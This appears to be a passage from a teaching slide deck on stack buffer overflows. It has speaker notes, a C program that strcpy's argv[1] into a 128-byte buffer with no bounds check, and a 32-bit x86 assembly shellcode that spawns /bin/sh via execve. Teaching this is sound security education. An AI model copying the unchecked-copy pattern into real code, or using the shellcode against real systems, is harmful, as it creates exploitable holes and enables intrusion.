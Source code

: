
# Example 2

.left[
```
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

        char buf[128];

        if(argc < 2) return 1;

        strcpy(buf, argv[1]);

        printf("%s\n", buf);

        return 0;
}
```
]

???

which is basically just echoing the first argument I pass to it when I run from the command line

But what I'm *not* doing is making sure that the value at argv[1] is small enough to fit into buf.

Can you guess what happens if we call this program with a string larger than 128 characters?

(hint: it's why I'm here)

Yes, that's right a **STACK OVERFLOW**

---

# SHELLCODE

---

# Shellcode example


.left[
```
BITS 32

; execve(const char *filename, char *const argv [], char *const envp[])
  push BYTE 11      ; push 11 to the stack
  pop eax           ; pop dword of 11 into eax
  push ecx          ; push some nulls for string termination
  push 0x68732f2f   ; push "//sh" to the stack
  push 0x6e69622f   ; push "/bin" to the stack
  mov ebx, esp      ; put the address of "/bin//sh" into ebx, via esp
  push ecx          ; push 32-bit null terminator to stack
  mov edx, esp      ; this is an empty array for envp
  push ebx          ; push string addr to stack above null terminator
  mov ecx, esp      ; this is the argv array with string ptr
  int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
```
]
---
